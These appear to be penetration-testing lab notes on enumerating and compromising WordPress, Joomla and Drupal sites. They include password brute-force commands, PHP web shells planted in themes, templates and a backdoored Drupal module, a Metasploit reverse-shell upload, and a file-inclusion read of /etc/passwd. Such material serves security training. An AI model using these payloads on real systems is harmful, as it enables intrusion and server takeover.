



# WordPress - Discovery & Enumeration

## robots.txt file

This file is placed at root directory /robots.txt

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

## Interesting subdirectories and files

```bash
/wp-admin/
wp-content/plugins
wp-content/themes
```

## Simple enumeration

### Wordpress Presence

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

### Theme enumeration

```bash
curl -s http://blog.inlanefreight.local/ | grep themes

<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.local/wp-content/themes/business-gravity/assets/vendors/bootstrap/css/bootstrap.min.css' type='text/css' media='all' />
```

### Plugins enumeration

```bash
curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
		<link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>
```

## **WPScan**

### Enumerating

The `--enumerate` flag is used to enumerate various components of the WordPress application, such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to
 specific components. For example, all plugins can be enumerated using the arguments `--enumerate ap`

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

API token from WPVulnDB

# **Attacking WordPress**

## **Login Bruteforce**

The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

## **Code Execution**

Administrative Access > Appearance > Theme Editor > Select a non-used theme >Edit uncommon page (404.php) > add payload or Reverse shell > Click on `Update File`

### Simple Payload

```php
system($_GET[0]);
```

### Path

```bash
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

### Using Metasploit

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## **Vulnerable Plugins - Example: mail-masta**

### Local File Inclusion

```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

## **Vulnerable Plugins - Example: wpDiscuz**

Exploit at Exploit-DB

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

# **Joomla - Discovery & Enumeration**

## Simple enumeration

### Joomla Presence

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

### robots.txt file

```
# If the Joomla site is installed within a folder# eg www.example.com/joomla/ then the robots.txt file# MUST be moved to the site root# eg www.example.com/robots.txt# AND the joomla folder name MUST be prefixed to all of the# paths.# eg the Disallow rule for the /administrator/ folder MUST# be changed to read# Disallow: /joomla/administrator/#
# For more information about the robots.txt standard, see:# https://www.robotstxt.org/orig.htmlUser-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

### Fingerprint the Joomla version

if the `README.txt` file is present

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

### Fingerprint Joomla version - xml

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

## Droopescan enumeration

```bash
sudo droopescan scan joomla --url http://dev.inlanefreight.local/
```

## Joomscan enumeration

```bash
perl joomlascan.py -u http://dev.inlanefreight.local
```

## Joomla Login bruteforce: joomla-bruteforce.py

```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

# **Attacking Joomla**

## **Abusing Built-In Functionality**

Using the credentials that we obtained, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.



Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

### Executing commands

```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

# Drupal - Discovery & Enumeration

A Drupal website can be identified in several ways, including by the header or footer message `Powered by Drupal`, the standard Drupal logo, the presence of a `CHANGELOG.txt` file or `README.txt file`, via the page source, or clues in the robots.txt file such as references to `/node`.

```diff
curl -s http://drupal.inlanefreight.local | grep Drupal

<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
      <span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

```
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

## Using Droopescan

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

# **Attacking Drupal**

## **Leveraging the PHP Filter Module (Below version 8)**

Older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

Next, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.



We can now create a page with a malicious PHP snippet such as the one below.

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

 Set `Text format` drop-down to `PHP code`

## Installing PHP Filter module myself (From version 8 onwards)

PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves.

```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.



## **Uploading a Backdoored Module**

Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module.

### Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz

tar xvf captcha-8.x-1.2.tar.gz
```

### Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

### Create a .htaccess file to give ourselves access to the folder

This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

### Compressing Module

```
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

```

### Installing Module

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.

```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
